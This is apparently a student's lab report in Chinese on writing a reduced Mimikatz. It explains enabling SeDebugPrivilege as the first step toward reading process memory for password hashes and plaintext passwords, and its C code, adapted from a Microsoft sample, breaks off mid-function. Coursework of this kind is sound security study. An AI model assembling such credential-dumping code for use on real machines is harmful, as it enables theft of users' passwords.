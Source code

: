 # mini 版 Mimikatz

王博文 522031910633


## 1. EnableSeDebugPrivilege()
此函数的作用是启用管理员账户默认禁用的`SeDebugPrivilege`权限，以便后续操作可以访问系统进程和内存。

启用`SeDebugPrivilege`是获取系统敏感信息的前提条件，可以让 Mimikatz 访问和操作其他进程的内存，从而提取敏感信息，如密码散列、明文密码等。

通过调用 Windows API 函数 `OpenProcessToken` 和 `LookupPrivilegeValue`，可以获取当前进程的访问令牌，并启用`SeDebugPrivilege`权限。

参考 Windows 应用开发文档(https://learn.microsoft.com/zh-cn/windows/win32/secauthz/enabling-and-disabling-privileges-in-c--)示例代码中的`SetPrivilege`函数及特权常量表。

| 特权常量 | 字符串值 | 显示名称 |
| --- | --- | --- |
| SE_ASSIGNPRIMARYTOKEN_NAME | SeAssignPrimaryTokenPrivilege | 替换进程级令牌 |
| SE_BACKUP_NAME | SeBackupPrivilege | 备份文件和目录 |
| SE_DEBUG_NAME | SeDebugPrivilege | 调试程序 |
| SE_INCREASE_QUOTA_NAME | SeIncreaseQuotaPrivilege | 调整进程的内存配额 |
| SE_TCB_NAME | SeTcbPrivilege | 以操作系统方式操作 |

查表可知，`SE_DEBUG_NAME`对应的字符串值为`SeDebugPrivilege`，因此可以通过调用文档中的`SetPrivilege`函数来启用该特权，只需设置`lpszPrivilege`等参数即可。

具体实现如下：

```c
BOOL EnableSeDebugPrivilege()
{
	HANDLE hToken = NULL;          // access token handle  
	LPCTSTR lpszPrivilege = SE_DEBUG_NAME;  // name of privilege to enable/disable  
	BOOL bEnablePrivilege = TRUE;   // to enable or disable privilege  

	TOKEN_PRIVILEGES tp;
	LUID luid;

	// Open the process token
	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
	{
		printf("OpenProcessToken error: %u\n", GetLastError());
		return FALSE;
	}

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system  
		lpszPrivilege,   // privilege to lookup   
		&luid))          // receives LUID of privilege  
	{
		printf("LookupPrivilegeValue error: %u\n", GetLastError());
		CloseHandle(hToken);
		return FALSE;
	}

	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	if (bEnablePrivilege)
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	else
		tp.Privileges[0].Attributes = 0;
```
